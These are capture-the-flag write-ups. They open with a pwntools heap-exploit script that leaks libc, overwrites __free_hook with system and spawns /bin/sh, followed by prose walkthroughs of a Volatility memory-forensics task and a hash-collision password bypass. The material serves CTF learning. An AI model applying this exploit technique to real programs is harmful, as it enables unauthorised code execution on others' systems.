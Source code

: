    ```python
   add(1,0x18,b"B" * 0x18)
   delete(0)
   libc_base = view(0) - 0x1ecbe0
   log.info("The libc base of the process is " + hex(libc_base))
   for i in range(2,10):
       add(i,0x18,f"{i}" * 0x18)
   for i in range(1,10):
       delete(i)
   delete(8)
   for i in range(0,8):
       add(i,0x18,p64(libc_base + libc.sym.__free_hook))
   add(9,0x18,b"/bin/sh\x00")
   add(10,0x18,b"C" * 0x18)
   #add(11,0x18,b"D" * 0x18)
   add(11,0x18,p64(libc_base + libc.sym.system))
   delete(9)
   r.interactive()
   ```

   



# Neo's Forensic Training 

1) We are basically given a memory dump of a atm machine and get its secret.

2) First of all , I ran strings and grep it with file format nothing came that useful.

3) Then used volatility to analyse the memory dump of the atm machine.

4) First of all, I ran the imageinfo to know about the imageinfo of the dump which is windows 7 service pack 1.

5) Then ran allmost all commands to get the flag. Like mftparser and searched for patterns browsing history of ie,chrome and firefox.

6) Then ran filescan for interesting files to dump. 

7) And finally ran cmdscan with args and found there was  notepad.exe with an argument of base64 encoded string.

8) That looks suspicious and after decoding we get the flag.

# Magically protected 

   1) The challenge was simple we were provided a python 3.7 bytecode compiled file.
   2) We decompiled it by using decompile ++ and then we saw that script where it asks for input password and it creates a hash and then compares the hash with the hash generated from the value in password variable. But it checks whether we gave the same password . So the trick is simple we just have to create the same hash but with different hash.The hash function is no any predefined function just a simple user defined function where we can simply able to create a same hash with different string
   3) Basically we are going to do a hash collision to get the flag .
   4) After testing in the local with the value we created .. We give the input to the remote server to get the flag for the challenge
